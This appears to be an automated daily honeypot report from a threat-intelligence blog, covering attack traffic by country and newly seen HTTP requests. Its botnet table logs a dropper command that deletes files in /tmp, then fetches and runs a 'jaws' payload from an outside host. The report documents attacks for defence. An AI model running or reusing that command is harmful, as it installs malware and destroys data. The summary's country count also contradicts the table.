 ```yaml
---
title: "Report: 2025-07-13 "
date: 2025-07-13
desciption: "Report: 2025-07-13" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-13 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 8 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 798 requests were recorded during the day, originating from 4 different countries, with a peak of 195 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CA               | Israel             |

## botnet_dropper_behaviour
| remote_addr    | request                                                                              |
|:---------------|:-------------------------------------------------------------------------------------|
| 8.219.8.115    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.164.241  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.219.162.69   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 157.148.122.56 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
|  79 |                     3 | GET /sra/ HTTP/1.1                                      |
| 129 |                     1 | \x00\x0E8\xA7\xAF\xCEJp\x04OO\x00\x00\x00\x00\x00       |
| 166 |                     1 | \x00\x0E8\xCF3\xA4\x1A\x14\x82V\x1B\x00\x00\x00\x00\x00 |
| 182 |                     1 | \x00\x0E8\x8E\xB31\xEA\xFD_\x0B\x01\x00\x00\x00\x00\x00 |
| 186 |                     1 | GET /doc/page/login.asp HTTP/1.1                        |
| 187 |                     1 | GET /onvif-http/snapshot?auth=YWRtaW46MTEK HTTP/1.1     |
| 209 |                     1 | GET /socket.io/1/?t=1752422004652 HTTP/1.1              |
| 215 |                     1 | \x00\x0E8\xA6\xE4]\xAD\xBE<\x8B\xF2\x00\x00\x00\x00\x00 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   195 | US                 |
|  1 |                   127 | GB                 |
|  2 |                   110 | HK                 |
|  3 |                    59 | RU                 |
|  4 |                    56 | CA                 |
|  5 |                    47 | PL                 |
|  6 |                    29 | BG                 |
|  7 |                    28 | NL                 |
|  8 |                    26 | JP                 |
|  9 |                    18 | DE                 |
| 10 |                    17 | FR                 |
| 11 |                     9 | MU                 |
| 12 |                     8 | CN                 |
| 13 |                     7 | SG                 |
| 14 |                     6 | LA                 |
| 15 |                     6 | AE                 |
| 16 |                     5 | SC                 |
| 17 |                     5 | UA                 |
| 18 |                     5 | BE                 |
| 19 |                     4 | IR                 |
| 20 |                     3 | LT                 |
| 21 |                     3 | IN                 |
| 22 |                     3 | KZ                 |
| 23 |                     3 | AO                 |
| 24 |                     2 | TW                 |
| 25 |                     2 | CH                 |
| 26 |                     2 | KW                 |
| 27 |                     2 | IE                 |
| 28 |                     2 | BR                 |
| 29 |                     1 | ES                 |
| 30 |                     1 | KR                 |
| 31 |                     1 | LV                 |
| 32 |                     1 | MC                 |
| 33 |                     1 | CZ                 |
| 34 |                     1 | SE                 |
| 35 |                     1 | PA                 |
| 36 |                     1 | BD                 |
| 37 |                     1 | IL                 |

